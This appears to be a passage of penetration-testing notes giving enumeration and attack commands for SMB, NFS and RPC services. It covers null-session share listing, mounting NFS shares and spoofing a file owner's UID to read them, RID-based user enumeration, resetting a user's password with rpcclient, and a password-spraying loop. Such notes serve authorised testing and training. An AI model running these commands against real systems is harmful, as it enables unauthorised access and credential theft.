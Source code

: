 `smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>`
`smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
`nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>`

### Suggestions
- ASRepRoast if username but no password

## 111 NFS

Network File System allows you mount and access files on a remote system as if they were on your local machine. RPC binds to 111 and you can use that port to enumerate other services using rpc (rpc-info script)

You can then use the nmap scripts to gather as much info on the nfs side as possible.
`nmap -p 111 --script nfs* $IP`

Then you can mount the shared drive to your own machine and dig into it.
`sudo mount -o nolock $IP:/$shareDirectory $localMount`

If you cannot access the file: 
1. you may need to check what UUID is allowed to view the file:
- `ls -l`
2. And then create a new user on your local machine:
- `adduser`
3. Change the UUID of the newly created user:
- `sudo sed -i -e 's/[CURRENTUUID]/[NEWUUID]/g' /etc/passwd`
4. Check and make sure the command ran properly:
- `cat /etc/passwd|grep $user`
5. `su` to the new user and read away.

Useful nmap scripts:
rpc-info.se
nfs-ls.se
nfs-showmount.se
nfs-statfs.se

## 135,137,139,145,593 RPC

Enumerate users: `rpcclient -N -U "" $IP -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";`
- No pass and no user

Change users password: `setuserinfo $username 23 '$password'`
- "23" refers to level of user information being modifying, and 23 is for passwords.  It doesn't change, unless you're trying to modify something else. 

`rpcinfo $IP`

Passwordspray:
`for u in $(cat valid_users.txt);do rpcclient -U "$u%$password" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

## 137,138,445 SMB
